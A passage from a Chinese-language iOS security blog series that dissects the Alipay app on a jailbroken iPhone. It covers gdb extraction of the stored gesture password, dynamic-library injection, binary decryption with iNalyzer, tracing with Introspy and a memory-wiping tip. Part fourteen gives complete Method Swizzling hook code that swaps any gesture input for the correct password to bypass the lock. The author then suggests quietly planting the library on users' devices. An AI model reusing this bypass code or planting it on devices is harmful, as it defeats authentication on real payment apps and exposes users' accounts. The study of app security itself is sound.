        NSString *dirStr = [paths objectAtIndex:0];   
        return dirStr;   
    }   
       
    + (NSString *)documentsDirectory   
    {   
        return [WQPathUtilities directory:NSDocumentDirectory];   
    }   
       
    + (NSString *)cachesDirectory   
    {   
        return [WQPathUtilities directory:NSCachesDirectory];   
    }   
       
    + (NSString *)tmpDirectory   
    {   
        return NSTemporaryDirectory();   
    }   
       
    + (NSString *)homeDirectory   
    {   
        return NSHomeDirectory();   
    }   
       
    + (NSString *)codeResourcesPath   
    {   
        NSString *excutableName = [[NSBundle mainBundle] infoDictionary][@"CFBundleExecutable"];   
        NSString *tmpPath = [[WQPathUtilities documentsDirectory] stringByDeletingLastPathComponent];   
        NSString *appPath = [[tmpPath stringByAppendingPathComponent:excutableName]   
                             stringByAppendingPathExtension:@"app"];   
        NSString *sigPath = [[appPath stringByAppendingPathComponent:@"_CodeSignature"]   
                             stringByAppendingPathComponent:@"CodeResources"];   
        return sigPath;   
    }   
       
    + (NSString *)binaryPath   
    {   
        NSString *excutableName = [[NSBundle mainBundle] infoDictionary][@"CFBundleExecutable"];   
        NSString *tmpPath = [[WQPathUtilities documentsDirectory] stringByDeletingLastPathComponent];   
        NSString *appPath = [[tmpPath stringByAppendingPathComponent:excutableName]   
                             stringByAppendingPathExtension:@"app"];   
        NSString *binaryPath = [appPath stringByAppendingPathComponent:excutableName];   
        return binaryPath;   
    }   
       
    @end   

md5方法：

    #import "CommonCrypto/CommonDigest.h"   
       
    +(NSString *)md5WithString:(NSString *)string   
    {   
        const charchar *cStr = [string UTF8String];   
        unsigned char result[CC_MD5_DIGEST_LENGTH];   
        CC_MD5(cStr, strlen(cStr), result);   
           
        return [[NSString stringWithFormat:@"%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X%02X",   
                 result[0], result[1], result[2], result[3],   
                 result[4], result[5], result[6], result[7],   
                 result[8], result[9], result[10], result[11],   
                 result[12], result[13], result[14], result[15]   
                 ] lowercaseString];   
    }   

这样做就100%安全了吗？

 

答案是：不……

 

所谓魔高一尺，道高一丈，不过也能阻止一些低级的hack手段了～


### <a name="markdown-af11"></a>iOS安全攻防（十一）：Hack实战——探究支付宝app手势密码


在之前的 iOS安全攻防（七）：Hack实战——解除支付宝app手势解锁错误次数限制 中，留了一个问题，就是如何破解手势密码。

 

方法不唯一，本文介绍如何利用gdb分析破解app。

 

当没有程序源代码的情况下，我们如何利用gdb呢？

 

为了确定应该如何设置断点，不得不反汇编程序来作为参考了。


 

在前面的文章提到过，支付宝app的手势密码校验处理非常严谨，没有抛出BOOL判断的方法让我们可以直接修改返回值跳过验证，而是将全部操作封在了

-(void)gestureInputView:(id)view didFinishWithPassword:(id)password;  

 

于是，我反汇编了支付宝app，找到手势密码解锁的相关代码片段：





红色箭头标注的地方，让人欣喜，这将是我们断点位置的最好选择。

 

首先，查看一下相关程序段符号表：

    nm Portal | grep -i gestureinputview   

 

得到结果：





nm Portal | grep -i getpassword  

 

得到结果：





确定了了关键函数的输出符号。

 

启动支付宝app，并gdb该进程：

    gdb -q -p 671   

在上述两个函数位置设置断点：



可以通过info breakpoints 查看断点：


continue到 getPassword 位置，打印函数栈：


我们可以确定了 getPassword 的返回地址是 0x00becb36 ,  对该地址加断点：

    b * 0xbecb36   

然后继续continue，程序将卡在上面的断点上。


从上面的反汇编代码，我们可以知道，用户输入的密码为存在r8上，原始密码为存在r0上，我们直接打印出这两个寄存器的值：


 

正确密码是个“Z”手势图画，而当前输入为“一”手势图画。

 

可以得出结论，支付宝app的手势密码和大多数app一样，手势密码格式是字符串，9个点分别对应字符123456789。


### <a name="markdown-af12"></a>iOS安全攻防（十二）：iOS7的动态库注入


iOS系统不断升级，结构不断调整，所以我们可以利用的动态库注入方法也根据系统版本的不同而不同。

 

在此之前，我们可以利用环境变量 DYLD_INSERT_LIBRARY 来添加动态库，iOS7被成功越狱后，我们需要自己去探索实践iOS7动态库注入的方式。

 

本文将在iOS7.0.4环境下，以 hook 支付宝app 程序中 ALPLauncherController 的视图加载方法为例，介绍在iOS7下，如何实现动态库注入攻击。

 

相关工具位置信息

先总结罗列一下相关编译、链接工具的位置路径信息，在各位自行下载的iOS SDK中

clang  :    /Applications/Xcode.app/Contents/Developer/Toolchains/XcodeDefault.xctoolchain/usr/bin/clang

gcc     :    /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/arm-apple-darwin10-llvm-gcc-4.2

ld         :   /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/ld

                /Applications/Xcode.app/Contents/Developer/Toolchains/XcodeDefault.xctoolchain/usr/bin/ld

sdk     :   /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS7.0.sdk/

 

动态库源程序

我们编写一个 hook 支付宝app 程序中 ALPLauncherController 的 viewDidLoad 方法，具体方法是利用 Method Swizzling 。

 

不熟悉 Method Swizzling 的话，可以参看我之前的这篇文章：[Objective-C的hook方案（一）: Method Swizzling](https://blog.csdn.net/yiyaaixuexi/article/details/9374411)  


    #import <UIKit/UIKit.h>   
    #import <objc/runtime.h>   
       
    @implementation UIViewController (HookPortal)   
       
    -(void)myViewDidLoad   
    {   
        NSLog(@"----------------------- myViewDidLoad ----------------------");   
    }   
       
    @end   
       
    static void __attribute__((constructor)) initialize(void)   
    {   
        NSLog(@"======================= initialize ========================");   
           
        Class class = objc_getClass("ALPLauncherController");   
        Method ori_Method =  class_getInstanceMethod(class, @selector(viewDidLoad));   
        Method my_Method = class_getInstanceMethod(class, @selector(myViewDidLoad));   
        method_exchangeImplementations(ori_Method, my_Method);   
    }   

编译dylib

我们可以利用xcode直接帮忙编译.o，或者自己手动使用clang编译，然后手动ld：

ld -dylib -lsystem -lobjc  -syslibroot /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS7.0.sdk/ -o libwq.dylib xxx.o  

 

安置、验证dylib

将编译好的 libwq.dylib 拷贝到iPhone 文件系统中 /Library/MobileSubstrate/DynamicLibraries/ 下

如果不放心库是否能正常工作，可以加一步验证操作，写一个demo尝试打开自己的库：

    voidvoid *handle = (void*)dlopen("/Library/MobileSubstrate/DynamicLibraries/libwq.dylib", 0x2);   
    handle = dlsym(handle, "myViewDidLoad");   
    if (handle) {   
        NSLog(@"++++");   
    }else{   
        NSLog(@"----");   
    }   

运行检验效果

到了验证效果的时候，重启设备后者执行：

    killall SpringBoard   

启动支付宝app，然后观察log信息：

    Portal[3631] <Notice>: MS:Notice: Injecting: com.alipay.iphoneclient [Portal] (847.21)   
    Portal[3631] <Notice>: MS:Notice: Loading: /Library/MobileSubstrate/DynamicLibraries/libwq.dylib   
    Portal[3631] <Warning>: ======================= initialize ========================   
    Portal[3631] <Warning>: ----------------------- myViewDidLoad ----------------------   

证明我们的动态库已经被加载， 我们的Hook 也成功了。

 

剩下的就要自己去思考了，除了加句无聊的Log，我们还可以做点什么呢？


### <a name="markdown-af13"></a>iOS安全攻防（十三）：数据擦除

对于敏感数据，我们不希望长时间放在内存中，而希望使用完后立即就被释放掉。
 
但是不管是ARC还是MRC，自动释放池也有轮循工作周期，我们都无法控制内存数据被擦除的准确时间，让hackers们有机可乘。
 
本文介绍一个小技巧——及时数据擦除。
 
 
假如一个View Controller A的一个数据被绑在一个property上，

    @interface WipingMemoryViewController : UIViewController   
       
    @property (nonatomic,copy) NSString *text;   
    @end   

 
 当A push到 另外一个View Controller B时，该数据还是有可能被读到的

    WipingMemoryViewController *lastController = (WipingMemoryViewController *)self.navigationController.viewControllers[0];   
    NSLog(@"text = %@",lastController.text);   

 
于是，“用后即擦”变得十分必要：

    _text = [[NSString alloc]initWithFormat:@"information"];    
    NSLog(@"Origal string = %@",_text);   
    //do something...   
    charchar *string = (charchar *)CFStringGetCStringPtr((CFStringRef)_text, CFStringGetSystemEncoding());   
    memset(string, 0, [_text length]);   
    NSLog(@"final text = %@",_text);   

 
Log输出如下：

    WipingMemory[2518:70b] Origal string = information   
    WipingMemory[2518:70b] final text =    

 
可以看到，我们想要保护的数据，被有效的擦除了。
 
还有提个醒，如果是这样

    _text = @"information";   

 
创建的字符串，是会被分配到data区，而是无法修改的。
 
如果有兴趣也有闲心，可以试试运行下面的代码，有彩蛋哦：

    _text = @"information";   
    memset((__bridge voidvoid *)(_text), 0, _text.length - 1);   
    NSString *myString = [[NSString alloc]initWithFormat:@"information"];   
    NSLog(@"Origal text : %@ \n",myString);   

 
 
编译器把两个information的省略到一个地址了～


### <a name="markdown-af14"></a>iOS安全攻防（十四）：Hack实战——支付宝app手势密码校验欺骗


在 iOS安全攻防（十一）：Hack实战——探究支付宝app手势密码 中，介绍了如何利用gdb分析app，确定了支付宝app的手势密码格式为字符串，9个点分别对应123456789。在 iOS安全攻防（十二）：iOS7的动态库注入 中，介绍了如果利用越狱大神们为我们开辟的iOS7动态库注入方法。
 
本文将继续深入hack实战，hook支付宝手势密码校验操作，欺骗其通过任意手势输入。
 
那么到现在为止，我们已经掌握了什么信息呢？
1）一个名叫 GestureUnlockViewController 的类，含有 gestureInputView:didFinishWithPassword: 方法，来处理输入的手势
2）正确的手势密码通过一个名叫 GestureUtil 的类读取，方法是 getPassword 
 
思路马上清晰了，我们需要做2步：
1）hook getPassword 存下正确的密码
2）hook gestureInputView:didFinishWithPassword:  替换当前输入为正确的密码
 
一个关键点，我们是用 Method Swizzling来hook，那么就意味操作不能过早，因为我们要保证在取到 GestureUnlockViewController 和 GestureUtil class后，才能进行imp替换。
所以， 我采用NSNotificationCenter通知机制协助完成任务。

    #import <objc/runtime.h>   
    #import <UIKit/UIKit.h>   
       
    IMP ori_getPasswd_IMP = NULL;   
    IMP ori_gesture_IMP = NULL;   
       
    @interface NSObject (HackPortal)   
       
    @end   
       
    @implementation NSObject (HackPortal)   
       
    + (id)getPassword   
    {   
        NSString *passwd = ori_getPasswd_IMP(self, @selector(getPassword));   
        return passwd;   
    }   
       
    - (void)gestureInputView:(id)view didFinishWithPassword:(id)password   
    {   
        password = ori_getPasswd_IMP(self, @selector(getPassword));   
        ori_gesture_IMP(self, @selector(gestureInputView:didFinishWithPassword:), view, password);   
    }   
       
    @end   
       
    @implementation PortalListener   
       
    - (id)init   
    {   
        self = [super init];   
        if (self) {   
            [[NSNotificationCenter defaultCenter]addObserver:self   
                                                    selector:@selector(appLaunched:)   
                                                        name:UIApplicationDidBecomeActiveNotification   
                                                      object:nil];   
        }   
        return self;   
    }   
       
    - (void)appLaunched:(NSNotification *)notification   
    {   
        Class class_GestureUtil = NSClassFromString(@"GestureUtil");   
        Class class_PortalListener = NSClassFromString(@"PortalListener");   
        Method ori_Method = class_getClassMethod(class_GestureUtil, @selector(getPassword));   
        ori_getPasswd_IMP = method_getImplementation(ori_Method);   
        Method my_Method = class_getClassMethod(class_PortalListener, @selector(getPassword));   
        method_exchangeImplementations(ori_Method, my_Method);   
           
        Class class_Gesture = NSClassFromString(@"GestureUnlockViewController");   
        Method ori_Method1 = class_getInstanceMethod(class_Gesture,   
                                                     @selector(gestureInputView:didFinishWithPassword:));   
        ori_gesture_IMP = method_getImplementation(ori_Method1);   
        Method my_Method1 = class_getInstanceMethod(class_PortalListener,   
                                                    @selector(gestureInputView:didFinishWithPassword:));   
        method_exchangeImplementations(ori_Method1, my_Method1);   
    }   
       
    -(void)dealloc   
    {   
        [[NSNotificationCenter defaultCenter]removeObserver:self];   
    }   
       
    @end   
       
    static void __attribute__((constructor)) initialize(void)   
    {   
        static PortalListener *entrance;   
        entrance = [[PortalListener alloc]init];   
    }   

OK！编译好动态库，塞进iPhone试试效果吧～
 
不管我们输入什么手势，都会被替换为正确的密码去给gestureInputView:didFinishWithPassword:验证，然后顺利解锁。
 
这意味着什么呢？
 
意味着，我们可以通过正规的渠道让用户下载这个动态库，然后悄悄放进越狱的iPhone的/Library/MobileSubstrate/DynamicLibraries/目录下……然后……然后去给妹纸帅锅变魔术吧：“你看，我和你多心有灵犀，你改什么密码我都猜的到！”


### <a name="markdown-af15"></a>iOS安全攻防（十五）：使用iNalyzer分析应用程序


好想用 doxygen 画iOS app的class继承关系。

有没有比 class-dump-z 更直观的分析工具？

利器 iNalyzer 隆重登场～

 

一、iNalyzer的安装

在iPhone端：

1）进入cydia添加源 http://appsec-labs.com/cydia/

2）搜索 iNalyzer 并安装

 

二、Doxygen和Graphviz的安装

在Mac端：

brew install doxygen graphviz

 

三、解密支付宝app

1）查看可解密的app

    cd /Applications/iNalyzer5.app   
    ./iNalyzer5    
       
    usage: ./iNalyzer5 [application name] [...]   
    Applications available: Portal Tenpay    

 

2）解密支付宝app

    ./iNalyzer5 Portal   
       
    got params /var/mobile/Applications/4763A8A5-2E1D-4DC2-8376-6CB7A8B98728/Portal.app/ Portal.app 800 iNalyzer is iNalyzing Portal...   
    iNalyzer:crack_binary got /var/mobile/Applications/4763A8A5-2E1D-4DC2-8376-6CB7A8B98728/Portal.app/Portal /tmp/iNalyzer5_3f0d8773/Payload/Portal.app/Portal Dumping binary...helloooo polis?   
    helloooo polis?   
    iNalyzer:Creating SnapShot into ClientFiles   
    iNalyzer:SnapShot Done   
    iNalyzer:Population Done   
    iNalyzer:Dumping Headers   
    iNalyzer:Patching Headers   
    /bin/sh: /bin/ls: Argument list too long   
    ls: cannot access *_fixed: No such file or directory   
        /var/root/Documents/iNalyzer/支付宝钱包-v8.0.0.ipa   

将解密后的ipa拷贝到本地

 

四、修改doxMe.sh脚本

解压ipa, cd 到 /支付宝钱包-v8.0.0/Payload/Doxygen 下找到 doxMe.sh

    #!/bin/sh   
       
    /Applications/Doxygen.app/Contents/Resources/doxygen dox.template && open ./html/index.html   

 

我们是通过brew安装的 doxygen，所以修改脚本为：

    #!/bin/sh   
       
    doxygen dox.template && open ./html/index.html   

 

五、执行doxMe.sh脚本

    ./doxMe.sh    

完成后浏览器会自动 open 生成的html文件

 

六、查看信息

通过index.html我们可以直观的查看到 Strings analysis ， ViewControllers，Classes 等几大类的信息。





在Classes->Class Hierarchy 可以查看到类继承图示。

 

支付宝app class Hierarchy 结果冰山一角：





### <a name="markdown-af16"></a>iOS安全攻防（十六）：使用introspy追踪分析应用程序


如果你已阅读了《iOS安全攻防》系列专栏之前的文章，一定已经对静态以及运行时分析app有了一定的了解。

 

我们可以借助的分析工具很多，工具和工具之间一般没有什么优劣比较性，完全看个人习惯什么擅长什么。

 

多个工具多条路，那么本文将介绍追踪分析利器introspy。

 

对应iOS系统版本，下载适用的introspy工具包：[introspy下载地址传送门](https://github.com/iSECPartners/Introspy-iOS/releases)

 

下载后，将其拷贝到设备中，并执行安装命令：

    # dpkg -i com.isecpartners.introspy-v0.4-iOS_7.deb  

 重启设备：

    # killall SpringBoard   

到设置中，就可以查看到instrospy的设置选项了




在Introspy-Apps中选择要跟踪的app名称。

Instrospy-Settings则提供一些常规跟踪设置选项，默认是全部开启。





然后启动想要跟踪的应用程序，就可以直接查看log获取Instrospy为我们跟踪捕获的信息，这里以跟踪支付宝app为例。

 

打开支付宝app，选择添加银行卡，随意添加一个卡号，然后点击下一步

 

支付宝app反馈添加失败，该卡暂不支持，Instrospy捕获的信息也很清晰：

 

追踪信息被保存为一个数据库introspy-com.alipay.iphoneclient.db，存放在：

./private/var/mobile/Applications/4763A8A5-2E1D-4DC2-8376-6CB7A8B98728/Library/introspy-com.alipay.iphoneclient.db

 

也可以借助Introspy-Analyzer在本地将该数据库解析成一个直观的report.html查看 

 

Introspy-Analyzer [下载地址传送门](https://github.com/iSECPartners/Introspy-Analyzer)

 

将introspy-com.alipay.iphoneclient.db拷贝到本地，执行：

    python introspy.py -p ios --outdir Portal-introspy-html introspy-com.alipay.iphoneclient.db   

 

就会生成一个 Portal-introspy-html  文件夹，该目录下有 report.html ，用浏览器打开:

    open report.html    

就可以清晰的查看追踪信息了，主要分为DataStorage、IPC、Misc、Network、Crypto六大类信息。

 

举个例子，选择Crypto可以查看支付宝app采取了什么加密措施，如果你看过我之前的文章，一定会一眼就认出来手势密码的：

